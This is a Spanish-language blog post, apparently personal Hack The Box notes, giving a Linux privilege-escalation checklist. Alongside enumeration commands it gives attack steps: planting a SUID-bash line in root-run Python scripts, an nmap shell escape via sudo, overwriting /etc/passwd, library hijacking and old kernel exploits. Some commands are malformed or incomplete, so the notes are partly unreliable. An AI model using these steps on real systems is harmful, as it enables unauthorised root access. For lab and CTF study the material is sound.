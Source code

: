 ```yaml
---
layout: single
title: PrivEsc
date: 2024-08-27
classes: wide
header:
  teaser: /assets/images/bob.png
categories:
  - hackthebox
tags:
---
```


Checklist de pruebas a realizar para escalar privilegios

![](/assets/images/bob.png)


# Maneras de escalar privilegios en linux

Si en una maquina encontramos un script con permisos root pero el contenido no sirve para elevar privilegios y no podemos modificarlo, podemos intentar borrarlo y crear uno con el mismo nombre y tendremos los mismos privilegios

si tenemos un script en python en el que tiene permisos root podemos agregar la siguiente linea para escalar privilegios

`import os;os.system('chmod u+s /bin/bash')`

Verificar las variables de entorno con:

`env`

## Lista de comandos a probar:

`sudo -l` Sirve para ver si podemos ejecutar algun comando con permisos especiales

`find / -perm 4000 2>/dev/null` Nos ayuda a ver binarios con permiso SUID

`find / -user <nombre> 2>/dev/null` Podemos ver archivos de un usuario en especifico

`getcap -r /` Nos permite ver las capabilities

`cat /etc/hosts` Nos sirve para ver si hay algun dominio que no sabemos

`ps -faux` Nos informa sobre el estado de los procesos

`ss -tuln` `netstat -tuln` Podemos ver los puertos internos abiertos

`nc -l` para abrir un puerto, nos sirve en caso de que veamos que podemos tener permiso en la maquina sobre algun puerto podemos intentar 

`ls -la /bin/bash` En algunos casos podria ser que tenga permisos incorrectos y solo bastaria con hacer un bash -p

`cat /etc/crontab` Podemos ver una lista de tareas cron

# Tambien podemos buscar informacion en algun directorio como los siguientes

/var/log/ Podemos revisar los logs para ver si encontramos alguna credencial
/var/www/ En caso de que haya un sito web corriendo, podemos buscar credenciales

# Algunas tecnicas para escalar privilegios:

## Explotacion de una variable de entorno "LD_PRELOAD"

Manera de como explotarlo: <https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/>


### Ejemplo de escalacion con nmap:

`TF=$(mktemp` Crea una variable que vale un archivo temporal en una variable

`echo 'os.execute("/bin/sh")' > $TF` Hace un echo a llamada de sistema ejecutando una /bin/sh y lo pasa a la variable temporal

`sudo -u user nmap --script=$TF` Ejecuta el script temporal

## Library hijacking 

Consiste en secuestrar la libreria que se esta ocupando para crear un archivo llamado como la libreria usada en el directorio actual donde 
inyectaremos el comando a ejecutar con python
### Ejemplo de explotacion

<https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8>


## Abuso de permisos mal implementados
### Ejemplo:
passwd 

`chmod o+w etc passwd`

`openssl passwd`
cambiamos el passwd de contrasena x a la que creamos y hacemos un su root buscar archivos que tengamos capacidad de escritura

` find / -writable 2>/dev/null`

en caso de algun otro archivo que no tengamos permisos de escritura pero si esta en un directorio nosotros podemos eliminarlo, lo eliminamos y creamos uno con el mismo nombre donde inyectaremos lo que nos interese

## Explotacion de kernel
se trata de injecciones de comandos por versiones de kernel antiguas

dirty cow /etc/passwd
3.2
para buscar exploits podemos ver en linux sugester

## Tambien podemos escalar con timers mal configurados
buscar timers

`systemctl list-timers`

lo podriamos detectar por pspy


-

